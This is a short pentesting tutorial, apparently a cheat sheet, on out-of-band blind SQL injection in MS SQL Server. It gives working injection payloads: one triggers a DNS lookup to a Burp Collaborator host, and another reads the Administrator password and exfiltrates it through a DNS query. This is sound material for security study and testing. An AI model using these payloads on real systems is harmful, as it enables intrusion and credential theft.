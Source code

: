 #OAST
#BLINDSQLI 

Applications may perform SQL queries asynchronously, continuing the request in the original thread and use another to execute a SQL query using the tracking cookie. The app is still vulnerable but none of the `classic` techniques will not work as the response will not reveal any data, error or the time taken to execute the query.

In this scenario exploitation may be still possible by triggering out-of-band network interactions, which will help to infer information one piece at a time or even directly exfiltrate data in network traffic.

Many network protocols can be used for exploitation, but the most effective is DNS. Many production networks allow free egress of DNS queries as they're essential for the normal operation of production systems.

## Payloads

Triggering such network interactions vary depending on the type of database used.

Generally try to combine the payloads with the following statements:

```
OR
AND
UNION
```

### MS SQL Server

```
'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--
```
The database will lookup for the following domain:

```
0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net
```

# Exfiltrate data via OOB interactions

Once id confirmed that OOB interactions are possible, try to exfiltrate data from the vulnerable application:

```
'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--
```

The payload above queries the `Administrator` password and stores it in a variable, which is sincluded along a DNS query to a collaborator domain.

Out-of-band ([OAST](https://portswigger.net/burp/application-security-testing/oast)) techniques are a powerful way to detect and exploit blind SQL injection, due to the high chance of success and the ability to directly exfiltrate data within the out-of-band channel. For this reason, OAST techniques are often preferable even in situations where other techniques for blind exploitation do work.
